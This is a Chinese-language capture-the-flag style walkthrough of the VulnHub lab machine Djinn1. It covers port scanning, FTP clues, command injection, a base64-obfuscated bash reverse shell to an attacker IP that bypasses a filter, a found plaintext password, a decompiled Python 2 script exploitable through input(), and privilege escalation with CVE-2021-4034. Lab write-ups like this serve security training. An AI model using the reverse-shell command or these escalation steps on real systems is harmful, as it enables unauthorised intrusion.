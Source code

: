 +++
ShowToc = true
TocOpen = true
title = '0x078 Djinn1'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE32d366749858f384b258b752e94a4555image.png)

![](/vulnhub_img/WEBRESOURCE8bff7a9e9a70b6b4389424a5314dc4a1image.png)

![](/vulnhub_img/WEBRESOURCEcaa498add233ae75057ecb27b2f7af48image.png)

# 渗透

FTP：

![](/vulnhub_img/WEBRESOURCE9c508adcba3bbe67f5ba8672f778cbedimage.png)

这里有几个信息，1337端口？nitish81299、nitu:81299

![](/vulnhub_img/WEBRESOURCE28cf9501e1386257869e0ecc2dfe189cimage.png)

HTTP：

![](/vulnhub_img/WEBRESOURCE56c3137b5f4bf4648827e8f7fc6c033bimage.png)

命令执行：

![](/vulnhub_img/WEBRESOURCE008cfbe77d712786215abc017467fb64image.png)

![](/vulnhub_img/WEBRESOURCEf52666b561ae6d53df6e1b04f1302739image.png)

用burp抓包可以发现是个重定向：

![](/vulnhub_img/WEBRESOURCE94786b2ab29c9817b29c1a8d95408c20image.png)

反弹shell，弹了半天，弹不动，后面看了一下，这里是过滤了，得用base64绕过：

```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuNjYvODg4OCAwPiYxCg==" | base64 -d | bash
```

![](/vulnhub_img/WEBRESOURCEdbaf6d5b9c645fda8da1e122548ce48fimage.png)

# 提权

![](/vulnhub_img/WEBRESOURCEd574aa49ef46874eac356a3cf4f63212image.png)

发现SUID，不过不是root的，并且没有执行权限，看样子得提权到nitish才行：

![](/vulnhub_img/WEBRESOURCE236e0ff3dba9d9a66f092e7de1b11d8dimage.png)

然后在nitish的家目录下面找到密码：

nitish:p4ssw0rdStr3r0n9

![](/vulnhub_img/WEBRESOURCE7ca081e0461a31522c964c593daf591dimage.png)

切换到sam用户，用gtfobin的方法，这里都执行失败了，

![](/vulnhub_img/WEBRESOURCEc683522e6f1484e907b650a8a9fb899fimage.png)

这里又有一个坑，使用-h看到的参数里面都没法执行成功：

![](/vulnhub_img/WEBRESOURCE5222747087bbc5564aba2b847411d9eaimage.png)

但是man可以：

![](/vulnhub_img/WEBRESOURCE0d9988f2265199aee2a8203785458e5fimage.png)

然后就是，随便带一个参数就可以提权：

![](/vulnhub_img/WEBRESOURCE61dfb0f6d86c449c7b8a46afa28a7c6cimage.png)

sudo提权这里不知道怎么利用：

![](/vulnhub_img/WEBRESOURCEc5d855c8b22f37d0f91a1fac4fd2cd5aimage.png)

去sam家目录下面翻查，有一个.pyc的文件：

![](/vulnhub_img/WEBRESOURCE73196c0a316200d848a11d085ec09e94image.png)

传出来：

![](/vulnhub_img/WEBRESOURCE95edb9c1f70249eea6a045d446210497image.png)

![](/vulnhub_img/WEBRESOURCE63440625801c3d345ed09e410426e479image.png)

反编译：

[https://tool.lu/pyc/](https://tool.lu/pyc/)

![](/vulnhub_img/WEBRESOURCE5ef5e9e34de05e7716a88837f112d19cimage.png)

```
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

大概看一下，可以知道整个逻辑，当输入的内容等于num的时候，执行/bin/sh，那么这里其实理论上运气足够好，或者写个脚本一直怼着一个数字跑，应该是可以直接拿到shell的，但是这种方法明显不靠谱，在这里python2中，

![](/vulnhub_img/WEBRESOURCE00a142e4a60fb0c51727382ef913d3fcimage.png)

2021-4034秒了：

![](/vulnhub_img/WEBRESOURCE33c797731ace0408053033aee073703dimage.png)